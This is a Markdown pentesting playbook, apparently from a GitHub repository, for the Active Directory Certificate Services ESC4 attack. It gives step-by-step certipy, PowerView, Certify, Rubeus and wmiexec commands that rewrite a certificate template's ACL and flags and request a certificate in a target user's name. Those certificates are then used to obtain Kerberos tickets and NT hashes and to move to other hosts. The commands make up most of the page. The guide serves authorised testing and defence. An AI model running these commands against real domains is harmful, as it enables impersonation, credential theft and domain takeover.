 # ESC4—Vulnerable Certificate Template Access Control (ACL) Abuse

## Theory

If you have powerful rights (e.g., **FullControl**, **WriteDACL**, **WriteOwner**, **WriteProperty**) over a certificate **template** object in AD, you can change its settings to make it behave like an **ESC1**-style template: low-privileged users can enroll, **enrollee supplies subject (SAN)** is enabled, no manager approval or authorized signatures are required, and the template has an **authentication EKU**. Then you request a cert with a **target user’s UPN in the SAN** and authenticate as that user.

## Requirements

- Rights over the **template** sufficient to modify its ACL/properties (e.g., **FullControl or GenericWrite**).
- Modify the template to:
    - **Grant Enroll** to a low-privileged principal (e.g., Domain Users).
    - **Disable manager approval**: clear `PEND_ALL_REQUESTS` in `mspki-enrollment-flag`.
    - **Disable authorized signatures**: set `mspki-ra-signature` to `0`.
    - **Allow SAN/subject supply**: set `ENROLLEE_SUPPLIES_SUBJECT` in `mspki-certificate-name-flag`.
    - **Enable authentication EKU** via `pkiextendedkeyusage` and `mspki-certificate-application-policy`, e.g.:
        - Client Authentication `1.3.6.1.5.5.7.3.2`
        - (or) Smart Card Logon `1.3.6.1.4.1.311.20.2.2`
        - (or) PKINIT Client Authentication `1.3.6.1.5.2.3.4`
        - (or) Any Purpose `2.5.29.37.0`
        - (or) No EKU
 
---

## Linux

### Enumerate (find Templates You Can control)

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# In "Object Control Permissions", confirm your account/group has FullControl/WriteDACL/WriteOwner/WriteProperty on <TEMPLATE_NAME>.
```

### Attack—one-shot Template Hardening Bypass (save → Modify → Abuse → restore)

1. **Save current template config**

```bash
certipy template -u '<USER>@<DOMAIN>' -p '<PASS>' -template '<TEMPLATE_NAME>' -save-old
# => writes <TEMPLATE_NAME>.json
```

1. **Auto-modify template to ESC1-like state**

```bash
certipy template -u '<USER>@<DOMAIN>' -p '<PASS>' -template '<TEMPLATE_NAME>'
# This sets: EnrolleeSuppliesSubject, adds auth EKU, disables manager approval & authorized signatures, etc.
```

1. **Request cert impersonating target**

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' \
  -template '<TEMPLATE_NAME>' -upn '<TARGET_UPN>' -out '<OUT_PFX>'
# => '<OUT_PFX>' contains a cert+key for <TARGET_UPN>
```

1. **Authenticate / extract target creds**

```bash
certipy auth -pfx '<OUT_PFX>.pfx' -username '<TARGET_USER>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# => Saves <TARGET_USER>.ccache and may output NT hash.
```

1. **Restore original template configuration**

```bash
certipy template -u '<USER>@<DOMAIN>' -p '<PASS>' -template '<TEMPLATE_NAME>' -configuration '<TEMPLATE_NAME>.json'
```

1. **Use TGT**

```bash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

## Windows

### Enumerate (identify Template You Can edit)

```powershell
.\Certify.exe find
# Manually check "<TEMPLATE_NAME>" in "Object Control Permissions":
#   you (or your group) should have Full Control / WriteOwner / WriteDacl / WriteProperty.
```

### Attack—make Template ESC1-like with PowerView, then Enroll & Authenticate

1. **Load PowerView**

```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
Import-Module .\PowerView.ps1
```

1. **Grant Enroll to a broad group (e.g., Domain Users)**

```powershell
Add-DomainObjectAcl -TargetIdentity '<TEMPLATE_NAME>' -PrincipalIdentity 'Domain Users' `
  -RightsGUID '0e10c968-78fb-11d2-90d4-00c04f79dc55' `
  -TargetSearchBase 'LDAP://CN=Configuration,<FOREST_DN>' -Verbose
```

1. **Disable manager approval (clear PEND_ALL_REQUESTS)**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-enrollment-flag'=9} -Verbose
# 9 = INCLUDE_SYMMETRIC_ALGORITHMS(1) + PUBLISH_TO_DS(8); does not include PEND_ALL_REQUESTS(2)
```

1. **Disable authorized signatures**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-ra-signature'=0} -Verbose
```

1. **Allow requester-supplied subject/SAN**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-certificate-name-flag'=1} -Verbose
# 1 = ENROLLEE_SUPPLIES_SUBJECT
```

1. **Set authentication EKU(s)**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'pkiextendedkeyusage'='1.3.6.1.5.5.7.3.2'} -Verbose

Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

1. **(Optional) Verify template now shows as vulnerable**

```powershell
.\Certify.exe find /vulnerable
```

1. **Request a cert with target’s UPN in SAN**

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<TARGET_UPN> > <OUT_PEM>
```

1. **Convert to PFX**

```powershell
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in <OUT_PEM> -keyex `
  -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <OUT_PFX>
```

1. **Authenticate as target**

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:<OUT_PFX> /getcredentials /nowrap
# => Base64 TGT and possibly NTLM for <TARGET_USER>
```

**Cleanup:** Revert the template to its original settings (use the saved JSON via `certipy template -configuration <TEMPLATE_NAME>.json` from Linux, or manually undo the attributes and ACL changes if working solely from Windows).
